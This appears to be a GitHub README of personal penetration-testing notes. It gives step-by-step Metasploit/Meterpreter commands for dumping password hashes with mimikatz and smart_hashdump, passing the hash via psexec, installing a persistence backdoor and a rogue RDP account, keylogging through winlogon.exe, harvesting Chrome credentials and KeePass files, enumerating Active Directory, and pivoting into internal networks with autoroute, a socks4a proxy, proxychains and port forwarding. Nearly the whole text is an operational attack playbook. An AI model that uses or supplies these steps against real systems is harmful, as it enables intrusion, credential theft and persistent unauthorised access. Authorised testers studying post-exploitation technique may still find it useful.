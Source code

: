 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid

Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`

### Windows
- run post/windows/gather/enum_domains

If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)

The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.

Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`

Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension

Downloading files:
- use the download command.

Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome

List Applications:
- `run post/windows/gather/enum_applications`

Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation


## Mapping the Internal Network

### Meterpreter Commands
Basics:
- route
- arp (good way to find new ip addresses in the network)
- netstat (will show all the host network connections as well as the processes assocatied with them)
- arp_scanner
- ping_sweep (run outside of meterpreter, but has an option where it is set to a specific session number)
- netenum (research more)

Pivoting:
Add a new route to the network to allow for a single host to scan their own internal network.

- `route add 10.10.10.0/24 255.255.255.0 2` -> 2 is the session we want to route things through.
- `run autoroute -s 10.10.10.0/24`
- `route flush`

Sometimes metasploit modules are not enough and you may want to run tools like nmap or nessus on these new hosts. To do this we will once again use the current session on the exploited machine, to pivot external tools via the meterpreter session and its route. In order to do this we will have to set up a socks4 proxy within metasploit and then use tools like proxychains to route the traffic through this proxy.

#### Setup Proxy
- `use auxiliary/server/socks4a`
- configure a port to listen on
- Execute: `run`
- Can check for listening port via `netstat -tulpn | grep [PORT_NUM]`

Now that the proxy is set up, we need to configure tools like `proxychains` in order to use the address and port set in metasploit. Proxychains is a tool that forces any tcp connection made by any given application, to follow through proxy like SOCKS4 SOCKS5 TOR and so on.

#### Configure proxychains
- Open up the proxychain configuration at: /etc/proxychain.conf
- Change the last line to the following `socks4 127.0.0.1 [PORT_NUM]`
- The above statement is telling proxychains to use SOCKS4 as the proxy on our local address on [PORT_NUM]

We are instructing proxychains to use the proxy set within metasploit and its route. The process is now: `tools -> proxychains -> metasploit socks4a proxy -> meterpreter routes -> meterpreter session -> target network`

#### Use tools and utilize the new proxy
Use a scanning tool like nmap targeting the target internal network
- `proxychains nmap -sT -Pn -n 10.10.10.5 --top-ports 50`
- By adding `proxychains` before the nmap command, we will force nmap to run through it.

You can also route other things through proxychains as well. For example:
- `proxychains ssh 10.10.10.XX`
- `proxychains telnet 10.10.10.XX`

You can also setup port forwarding:
- Inside of meterpreter, the following command will open a listener on our local ip address on port 3333 and will forward the connection to the ip address 10.10.10.5 on port 3389
- `portfwd add -l 3333 -p 3389 -r 10.10.10.5`
- To check that is worked, run `portfwd` to list the forwards.

Now we can use the forwarding rules to get a remote desktop session via a call like `rdesktop 127.0.0.1:3333`

### Pass the hash
The metasploit module that we can use to run the pass-the-hash attack is called `psexec`

